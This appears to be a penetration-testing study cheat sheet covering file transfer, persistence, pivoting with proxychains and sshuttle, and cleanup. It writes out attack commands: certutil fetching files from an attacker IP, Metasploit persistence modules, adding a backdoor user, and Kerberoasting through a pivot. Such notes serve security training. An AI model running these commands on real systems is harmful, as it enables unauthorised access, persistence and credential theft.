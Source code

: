 

#### File Transfers Review:

- Certutil (Windows)
	- `certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt`
- HTTP
	- `python -m SimpleHTTPServer 80`
- Browser
	- Navigate directly to file
- FTP
	- `python -m pyftpdlib 21` (Attacker machine)
	- `ftp {attacker-ip-address}` (Target machine)
- Linux
	- wget
- Metasploit - this has a upload and download feature, if we have the meterpreter shell open


#### Maintaining Access Overview:

- Persistence Scripts:
	- run persistence -h
	- exploit/windows/local/persistence
	- exploit/windows/local/registry_persistence
- Scheduled tasks:
	- run scheduleme
	- run schtaskabuse
- Add a user
	- net user hacker password123 /add


#### Pivoting Overview:

If a machine is compromised and that machine is linked to 2 NIC's, one which we don't have a access to {we can find the ip-address using the `ip a` command in the compromised machine, we can use the compromised machine as a proxy to pivot us to the another network interface, which we don't have access in the first place. This process is called pivoting.

**Tool: proxychains**
- Step 1:
	- We need to find the port used in the proxy chains tool using the cat command of the proxy chains conf file
		- `cat /etc/proxychains4.conf` or `cat /etc/proxychains.conf`
	- In the conf file, find the socks4 at the end of the file, which has the local-host ip address and a port as `9050`, or it can be anything. We can use that port for the proxy
- Step 2:
	- We are going to ssh to the target machine, which has the access to the other NIC
		- `ssh -f -N -D 9050 -i pivot root@10.10.155.5{Target_IP_Address`
			- -f - this is mentioning the SSH to run in background
			- -N this is for port forwarding
			- -D - this is to bind the port 
- Step 3:
	- We can run nmap through proxychains.
		- `proxychains nnamp -p88 10.10.10.255`{ip-address of the other NIC}
			- this is to scan nmap specific to port 88
		- `proxychains nmap 10.10.10.255 -sT`
			- this is to scan  all the open ports with TCP connect scan, instead of SYN scan with the `-sT`
- Step 4:
	- We can run attacks as well using proxychains with no issue, below is for Kerberos attack
		- `proxychains GetUserSPNs.py {domain}.local/{username}:{Password} -dc-ip {target_ip_address} -request`
- Step 5:
	- We can also RDP to the machine using the below command/ xfreerdp tool.
		- `proxychains xfreerdp /u:administrator /p:'Hacker321!' /v:10.10.10.255`
- Step 6:
	- We can also open firefox through proxychains, which pivots the traffic from firefox to the  target machine (Make sure to close the firefox, if you have it open already)
		- `proxychains firefox`
	- This is useful to access any webpages that are hosted on the target machine, which we can't access earlier

**Tool: sshuttle**
If we don't have this tool installed, we can use `sudo pip install sshuttle` to install the tool into the machine

Syntax:
- `sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"`


**Tool: chisel**
Another tool we can use for proxy, we can find it with searching google with `chisel github`


#### Cleaning Up:

Make the system/network as it was when you entered it
- Remove executables scripts and added files
- Remove malware, rootkits and added user accounts
- Set settings back to original configurations

